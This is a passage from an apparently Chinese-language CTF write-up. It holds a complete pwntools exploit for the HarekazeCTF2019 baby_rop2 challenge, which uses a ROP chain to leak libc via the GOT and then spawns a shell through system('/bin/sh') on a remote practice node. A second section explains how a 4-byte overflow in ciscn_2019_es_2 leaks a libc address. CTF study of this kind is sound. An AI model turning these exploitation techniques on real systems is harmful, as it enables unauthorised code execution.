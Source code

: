 # buu027-[HarekazeCTF2019]baby_rop2

```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29802)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

poprdi_ret = 0x400733
poprsir15_ret = 0x400731

payload = cyclic(0x28)
payload += p64(poprdi_ret)
payload += p64(0x400790)
payload += p64(poprsir15_ret)
payload += p64(elf.got['read'])
payload += p64(0)
payload += p64(elf.plt['printf'])
payload += p64(elf.symbols['main'])

io.sendlineafter(b'What\'s your name? ', payload)
io.recvuntil(b'\n')
read = u64(io.recv(6) + b'\x00\x00')
base = read - libc.symbols['read']
system = base + libc.symbols['system']
binsh = base + next(libc.search(b'/bin/sh'))

print(hex(read))

payload = cyclic(0x28)
payload += p64(poprdi_ret)
payload += p64(binsh)
payload += p64(system)
payload += p64(elf.symbols['main'])

io.sendlineafter(b'What\'s your name? ', payload)

io.interactive()
```
# buu028-ciscn_2019_es_2
这一题乍一看是栈溢出，但最鸡贼的是只能溢出4个字节，也就是只够覆盖返回地址。不过还是有办法拿到libc的地址的：

![](https://img-blog.csdnimg.cn/ce7a88efd4434a0c99b9f83f73ff0205.png)
这是还没有进入vul函数时的栈环境，可以看到下面的f7de3ed5是libc之中的地址（_dl_fini是ld.so中的地址，而不是libc的）。我们溢出之后程序会打印出后面一部分地址的值，但是遇到空字节会截断。于是我们可以反复返回到vul函数的开头，你会发现每一次返回后，存返回地址的地址都会向后移4个字节。于是我们通过这种方法返回4次vul函数就能够成功越过上图ebp的0字节，通过printf获取libc地址。
